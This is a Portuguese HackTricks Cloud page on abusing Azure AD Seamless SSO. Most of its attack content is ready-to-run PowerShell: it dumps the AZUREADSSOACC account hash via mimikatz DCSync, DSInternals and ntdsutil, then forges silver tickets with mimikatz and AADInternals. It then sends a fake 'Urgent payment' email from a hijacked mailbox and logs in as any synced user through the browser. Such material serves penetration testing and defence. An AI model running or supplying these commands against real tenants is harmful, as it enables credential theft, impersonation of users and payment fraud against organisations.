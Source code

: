 # Seamless SSO

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

O Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **autentica automaticamente os usuários quando eles estão em seus dispositivos corporativos** conectados à rede corporativa. Quando ativado, **os usuários não precisam digitar suas senhas para entrar no Azure AD**, e geralmente, nem mesmo seus nomes de usuário. Este recurso fornece aos seus usuários acesso fácil às suas aplicações baseadas na nuvem sem a necessidade de componentes adicionais no local.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Basicamente, o Azure AD Seamless SSO **autentica os usuários** quando eles estão **em um PC unido ao domínio on-prem**.

É suportado tanto pelo [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) quanto pelo [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

O Desktop SSO usa **Kerberos** para autenticação. Quando configurado, o Azure AD Connect cria uma **conta de computador chamada AZUREADSSOACC** no AD on-prem. A senha da conta AZUREADSSOACC é **enviada como texto puro para o Azure AD** durante a configuração.

Os **tickets Kerberos** são **criptografados** usando o **NTHash (MD4)** da senha e o Azure AD usa a senha enviada para descriptografar os tickets.

O **Azure AD** expõe um **endpoint** (https://autologon.microsoftazuread-sso.com) que aceita **tickets Kerberos**. O navegador da máquina unida ao domínio encaminha os tickets para este endpoint para SSO.

### On-prem -> nuvem

A **senha** do usuário **AZUREADSSOACC nunca muda**. Portanto, um administrador de domínio poderia comprometer o **hash desta conta**, e então usá-lo para **criar silver tickets** para se conectar ao Azure com **qualquer usuário on-prem sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Com o hash, você pode agora **gerar silver tickets**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para usar o silver ticket:

1. Inicie o _Mozilla Firefox_.
2. Acesse **`about:config`** e defina a preferência [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) para o [valor](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Navegue até qualquer aplicação web que esteja integrada com o nosso domínio AAD. Usaremos o [Office 365](https://portal.office.com/), que é o mais comum.
4. Uma vez na tela de login, preencha o nome de usuário, deixando o campo de senha vazio. Em seguida, pressione TAB ou ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### E é isso! Assim você deve estar dentro! <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~Criando tickets Kerberos para usuários apenas na nuvem~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se os administradores do Active Directory tiverem acesso ao Azure AD Connect, eles podem **definir SID para qualquer usuário na nuvem**. Desta forma, tickets Kerberos **também podem ser criados para usuários apenas na nuvem**. O único requisito é que o SID seja um [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adequado.

{% hint style="danger" %}
Alterar o SID de usuários administradores apenas na nuvem agora está **bloqueado pela Microsoft**.\
Para informações, verifique [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
